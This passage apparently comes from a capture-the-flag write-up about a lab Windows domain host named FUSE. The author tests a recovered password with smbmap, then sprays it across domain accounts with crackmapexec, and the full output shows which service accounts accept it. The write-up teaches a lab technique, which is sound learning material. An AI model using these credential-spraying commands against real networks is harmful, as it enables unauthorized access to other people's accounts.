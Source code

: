 On first reading, I figured that the user for the share might be
scan2docs, but that doesn't work:



    root@kali# smbmap -H 10.10.10.193 -u scan2docs -p '$fab@s3Rv1ce$1'
    [+] Finding open SMB ports....
    [!] Authentication error on 10.10.10.193
    [!] Authentication error on 10.10.10.193



At this point, I want to see what other users might use this password.
`crackmapexec` will do the trick:



    root@kali# crackmapexec smb 10.10.10.193 -u users -p '$fab@s3Rv1ce$1' --continue-on-success
    SMB         10.10.10.193    445    FUSE             [*] Windows Server 2016 Standard 14393 x64 (name:FUSE) (domain:fabricorp.local) (signing:True) (SMBv1:True)
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\pmerton:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bhult:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\administrator:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\Guest:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\krbtgt:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\DefaultAccount:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\bnielson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\sthompson:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\tlavel:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [+] fabricorp.local\svc-scan:$fab@s3Rv1ce$1 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dandrews:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\mberbatov:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\astein:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.193    445    FUSE             [-] fabricorp.local\dmuir:$fab@s3Rv1ce$1 STATUS_LOGON_FAILURE 



Both svc-print and svc-scan use that password. Unfortunately, it these
creds didn't provide anything additional over SMB:
